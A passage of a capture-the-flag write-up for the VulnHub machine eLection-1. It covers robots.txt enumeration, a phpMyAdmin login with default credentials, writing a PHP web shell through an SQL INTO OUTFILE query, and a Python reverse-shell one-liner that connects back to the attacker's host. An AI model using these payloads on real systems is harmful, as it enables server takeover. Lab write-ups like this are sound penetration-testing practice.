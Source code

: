 		```
		┌──(root💀kali)-[~/vulnHub/eLection-1]
		└─# curl 192.168.110.29/robots.txt
		admin
		wordpress
		user
		election
		```

	- `election`
		![](Pasted%20image%2020220214231131.png)
		- No vulnerabilities found
2. Proceed to `phpmyadmin`, login w/ default credentials (root:toor)
	![](Pasted%20image%2020220214231618.png)
3. Proceed to `election -> tb_panitia`
	![](Pasted%20image%2020220214234500.png)
4. Crack `md5` hash
	- Failed to crack, exhausted `rockyou.txt`
5. Insert web shell, `Select election database -> SQL`

	``` 
	# Payload
	SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/webshell.php"
	```

	![](Pasted%20image%2020220214231818.png)

6. Execute command at `webshell.php`
	![](Pasted%20image%2020220214231927.png)
7. Obtain www-data shell

	``` 
	# Payload
	python+-c+'a=__import__;s=a("socket").socket;o=a("os").dup2;p=a("pty").spawn;c=s();c.connect(("192.168.110.4",4444));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'
	```

	![](Pasted%20image%2020220214232813.png)

	![](Pasted%20image%2020220214232848.png)

# Initial Foothold (2) - Directory Enumeration (Log File)

1. Instead of inserting a webshell via `phpMyAdmin`, directory enumerate `election`

	``` 
	┌──(root💀kali)-[~/vulnHub/eLection-1]
	└─# ffuf -u http://192.168.110.29/election/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .html,.txt,.php,.cgi,.log --recursion -of html -o election_fuzz.html -fc 403
	```
